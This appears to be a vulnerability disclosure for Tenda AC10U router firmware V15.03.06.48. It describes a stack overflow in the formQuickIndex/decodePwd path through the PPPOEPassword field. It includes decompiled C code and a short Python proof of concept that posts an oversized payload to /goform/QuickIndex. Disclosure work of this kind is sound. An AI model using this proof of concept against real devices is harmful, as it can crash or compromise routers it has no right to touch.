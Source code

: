 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `ppppwd` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `decode_pwd` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `decodePwd`, the statement: 

```c
void __cdecl decodePwd(char *srcStr, char *dstStr)
{
  char *srcStra; // [sp+8h] [+8h]
  char *dstStra; // [sp+Ch] [+Ch]

  srcStra = srcStr;
  dstStra = dstStr;
  if ( srcStr && dstStr )
  {
    while ( *srcStra )
    {
      if ( *srcStra == 92 )
        ++srcStra;
      *dstStra++ = *srcStra++;
    }
    *dstStra = 0;
  }
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240313222520157](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222520157.png)

![image-20240313222425867](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222425867.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"mit_linktype":"2","PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313222607344](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222607344.png)
